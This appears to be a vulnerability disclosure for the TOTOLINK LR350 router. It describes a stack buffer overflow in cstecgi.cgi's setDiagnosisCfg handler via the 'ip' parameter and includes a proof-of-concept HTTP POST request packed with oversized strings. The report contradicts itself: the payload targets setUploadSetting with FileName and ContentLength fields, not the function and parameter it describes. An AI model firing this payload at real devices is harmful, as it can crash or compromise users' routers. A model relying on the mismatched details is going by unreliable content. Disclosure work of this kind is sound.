


# totolink LR350
## Firmware version
totolink LR350 devices through v9.3.5u.6698_b20230810
## description
In totolink LR350 v9.3.5u.6698_b20230810 the file /cgi-bin/cstecgi.cgi setDiagnosisCfg contains a buffer overflow vulnerability. This is  due to incomplete patch for CVE-2024-2353, which only patch command injection vulnerability but not buffer overflow vulnerability
## detail
The bug in function addr 0x420390, binary /cgi-bin/cstecgi.cgi
The parameter 'ip' pass to sprintf if it passes `validity_check`
.Which may cause stack buffer overflow.



## Send package
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Accept: */*
Connection: keep-alive
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 325

{"topicurl": "setUploadSetting", "FileName": "aaawzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa", "ContentLength": "aaawzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa"}
```
